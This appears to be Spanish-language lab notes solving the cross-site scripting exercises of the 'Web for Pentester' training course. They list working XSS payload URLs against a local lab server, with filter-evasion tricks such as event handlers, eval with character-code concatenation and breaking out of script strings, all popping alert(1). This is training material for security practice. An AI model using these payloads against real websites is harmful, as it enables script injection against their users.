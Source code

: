 ## Contenidos

- [XSS](#xss)
  - [Example 4](#example-4)
  - [Example 5](#example-5)
  - [Example 7](#example-7)
  - [Example 8](#example-8)
  - [Example 9](#example-9)
- [Recursos](#recursos)

## XSS

### Example 4

```bash
http://10.0.1.6/xss/example4.php?name=<a href='' onmouseover="alert(1)" >Pop-up</a>
```

No es necesario `href=''`:

```bash
http://10.0.1.6/xss/example4.php?name=<div onmouseover="alert(1)" >Pop-up</div>
```

### Example 5

- eval

```bash
http://10.0.1.6/xss/example5.php?name=<script> eval(String.fromCharCode(97)%2B'lert(1)') </script>
```

```bash
http://10.0.1.6/xss/example5.php?name=<script> eval('a'%2B'lert(1)') </script>
```

Tabla símbolos: ver recursos.

- prompt

```bash
http://10.0.1.6/xss/example5.php?name=<script> prompt(eval(String.fromCharCode(97)%2B'lert(1)')) </script>
```

```bash
http://10.0.1.6/xss/example5.php?name=<script> prompt(eval('a'%2B'lert(1)')) </script>
```

- confirm

```bash
http://10.0.1.6/xss/example5.php?name=<script> confirm('',eval('a'+%2B+'lert(1)')); </script>
```

```bash
http://10.0.1.6/xss/example5.php?name=<script> confirm(eval('a'+%2B+'lert(1)')); </script>
```

Example 6

```bash
http://10.0.1.6/xss/example6.php?name=hacker2"; alert(1);</script> <script>
```

- commenting

```bash
http://10.0.1.6/xss/example6.php?name=hacker2"; alert(1) //
```

- dummy code

```bash
http://10.0.1.6/xss/example6.php?name="; alert(1); $dummy = "
```

### Example 7

```bash
http://10.0.1.6/xss/example7.php?name=hacker23';alert(1)//
```

### Example 8

```bash
http://10.0.1.6/xss/example8.php/" method="POST"> <script> alert(1); </script>
```

```bash
http://10.0.1.6/xss/example8.php/" method="POST"> <script> alert(1); </script><form action="/xss/example8.php/
```

### Example 9

```bash
http://192.168.1.37/xss/example9.php#<script>alert(1);</script>
```

Se debe usar el navegador Internet Explorer, ver vídeo <https://securitytraning.com/web-for-pentester-cross-site-scripting-example-9/>.

## Recursos

Tabla símbolos

<http://www.blooberry.com/indexdot/html/tagpages/entities/charentity97-126.htm>

Web for Pentester

<https://pentesterlab.com/exercises/web_for_pentester/course>
